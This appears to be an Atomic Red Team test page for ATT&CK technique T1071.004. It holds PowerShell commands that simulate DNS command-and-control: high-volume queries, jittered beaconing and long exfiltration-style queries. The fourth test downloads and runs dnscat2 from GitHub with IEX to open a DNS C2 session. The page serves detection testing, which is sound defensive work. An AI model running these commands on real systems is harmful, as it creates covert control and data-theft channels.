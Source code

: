 # T1071.004 - DNS
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1071.004)
<blockquote>Adversaries may communicate using the Domain Name System (DNS) application layer protocol to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server. 

The DNS protocol serves an administrative function in computer networking and thus may be very common in environments. DNS traffic may also be allowed even before network authentication is completed. DNS packets contain many fields and headers in which data can be concealed. Often known as DNS tunneling, adversaries may abuse DNS to communicate with systems under their control within a victim network while also mimicking normal, expected traffic.(Citation: PAN DNS Tunneling)(Citation: Medium DnsTunneling) </blockquote>

## Atomic Tests

- [Atomic Test #1 - DNS Large Query Volume](#atomic-test-1---dns-large-query-volume)

- [Atomic Test #2 - DNS Regular Beaconing](#atomic-test-2---dns-regular-beaconing)

- [Atomic Test #3 - DNS Long Domain Query](#atomic-test-3---dns-long-domain-query)

- [Atomic Test #4 - DNS C2](#atomic-test-4---dns-c2)


<br/>

## Atomic Test #1 - DNS Large Query Volume
This test simulates an infected host sending a large volume of DNS queries to a command and control server.
The intent of this test is to trigger threshold based detection on the number of DNS queries either from a single source system or to a single targe domain.
A custom domain and sub-domain will need to be passed as input parameters for this test to work. Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| query_type | DNS query type | string | TXT|
| subdomain | Subdomain prepended to the domain name | string | atomicredteam|
| query_volume | Number of DNS queries to send | integer | 1000|
| domain | Default domain to simulate against | string | 127.0.0.1.xip.io|


#### Attack Commands: Run with `powershell`! 


```powershell
for($i=0; $i -le #{query_volume}; $i++) { Resolve-DnsName -type "#{query_type}" "#{subdomain}.$(Get-Random -Minimum 1 -Maximum 999999).#{domain}" -QuickTimeout}
```






<br/>
<br/>

## Atomic Test #2 - DNS Regular Beaconing
This test simulates an infected host beaconing via DNS queries to a command and control server at regular intervals over time.
This behaviour is typical of implants either in an idle state waiting for instructions or configured to use a low query volume over time to evade threshold based detection.
A custom domain and sub-domain will need to be passed as input parameters for this test to work. Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| runtime | Time in minutes to run the simulation | integer | 30|
| domain | Default domain to simulate against | string | 127.0.0.1.xip.io|
| subdomain | Subdomain prepended to the domain name | string | atomicredteam|
| query_type | DNS query type | string | TXT|
| c2_interval | Seconds between C2 requests to the command and control server | integer | 30|
| c2_jitter | Percentage of jitter to add to the C2 interval to create variance in the times between C2 requests | integer | 20|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location PathToAtomicsFolder
.\T1071.004\src\T1071-dns-beacon.ps1 -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type} -C2Interval #{c2_interval} -C2Jitter #{c2_jitter} -RunTime #{runtime}
```






<br/>
<br/>

## Atomic Test #3 - DNS Long Domain Query
This test simulates an infected host returning data to a command and control server using long domain names.
The simulation involves sending DNS queries that gradually increase in length until reaching the maximum length. The intent is to test the effectiveness of detection of DNS queries for long domain names over a set threshold.
 Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| query_type | DNS query type | string | TXT|
| subdomain | Subdomain prepended to the domain name (should be 63 characters to test maximum length) | string | atomicredteamatomicredteamatomicredteamatomicredteamatomicredte|
| domain | Default domain to simulate against | string | 127.0.0.1.xip.io|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location PathToAtomicsFolder
.\T1071.004\src\T1071-dns-domain-length.ps1 -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type}
```






<br/>
<br/>

## Atomic Test #4 - DNS C2
This will attempt to start a C2 session using the DNS protocol. You will need to have a listener set up and create DNS records prior to executing this command.
The following blogs have more information.

https://github.com/iagox86/dnscat2

https://github.com/lukebaggett/dnscat2-powershell

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| domain | Domain Name configured to use DNS Server where your C2 listener is running | string | example.com|
| server_ip | IP address of DNS server where your C2 listener is running | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/45836819b2339f0bb64eaf294f8cc783635e00c6/dnscat2.ps1')
Start-Dnscat2 -Domain #{domain} -DNSServer #{server_ip}
```






<br/>
